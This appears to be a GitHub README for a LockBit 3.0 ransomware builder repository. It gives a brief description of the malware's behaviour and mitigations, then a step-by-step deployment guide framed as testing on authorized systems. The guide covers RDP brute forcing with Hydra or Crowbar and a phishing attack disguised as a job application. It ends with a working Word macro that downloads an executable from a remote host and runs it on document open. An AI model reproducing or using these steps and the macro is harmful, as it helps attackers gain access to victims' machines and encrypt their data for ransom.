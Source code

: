 # Lockbit-Ransomware-Builder

LockBit 3.0, also known as “Loc,” is more modular and evasive than its previous versions and shares similarities with Blackmatter and Blackcat ransomware.  Initial Access  Anyone deploying LockBit 3.0 ransomware gains initial access to victim networks via remote desktop protocol (RDP) exploitation, drive-by compromise, phishing campaigns, abuse of valid accounts, and exploitation of public-facing applications.  Execution and Infiltration  During the malware routine, if privileges are not sufficient, LockBit 3.0 attempts to escalate to the required privileges. LockBit 3.0 performs functions such as:  Enumerating system information such as hostname, host configuration, domain information, local drive configuration, remote shares, and mounted external storage devices Terminating processes and services Launching commands Enabling automatic logon for persistence and privilege escalation Deleting log files, files in the recycle bin folder, and shadow copies residing on disk After files are encrypted, LockBit 3.0 drops a ransom note with the new filename .README.txt and changes the host’s wallpaper and icons to LockBit 3.0 branding. If needed, LockBit 3.0 will send encrypted host and bot information to a command and control (C2) server.  Mitigations  Have an anti-virus software separate from the built-in Windows defender installed. Keep all systems, software, and firmware up to date Disable unused ports Take backups and keep them safe Testing on Authorized Systems  To test LockBit 3.0 on a system, you must first generate the files required before accessing the system. The batch file in this repo can automate this process.  Once that has been done, there are several different methods for accessing the system and many are included in guides online. The process for a couple of methods will be listed here.  Accessing a System with RDP  This method will not work if the target does not have RDP enabled or does not have the port forwarded on the network. Make sure this is done beforehand. Brute forcing the password also takes a significant amount of time and if the password is good enough, it may be near impossible.  Know the IP address of your target or obtain it with NMAP Make sure the port 3389 is open on the target's network with NMAP Use a brute force tool such as Crowbar or Hydra Connect using a client of your choice Copy the LockBit 3.0 files to the remote machine using your client, a cloud service, FTP, or any other method of your choice Execute Lockbit 3.0 Accessing a System with a Phishing Scheme  In this case, an email will be sent with a job application. When the job application is opened (using Microsoft Word) and the button to start editing it is pressed, LockBit 3.0 is downloaded and executed. There is a guide online, but here are some tips:  In Word, enter dev mode with Alt+F8 The macro in the guide works, but only for an executable already in the path. An easy way to copy and execute LockBit 3.0 is to download and run the executable in the macro. Here is a version of the macro that implements this: Sub Document_Open()  dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP") dim bStrm: Set bStrm = createobject("Adodb.Stream") xHttp.Open "GET", "http://example.com/LB3.exe", False xHttp.Send  with bStrm     .type = 1 '//binary     .open     .write xHttp.responseBody     .savetofile "c:\temp\LB3.exe", 2 '//overwrite end with  CreateObject("WScript.Shell").Run "c:\temp\LB3.exe"
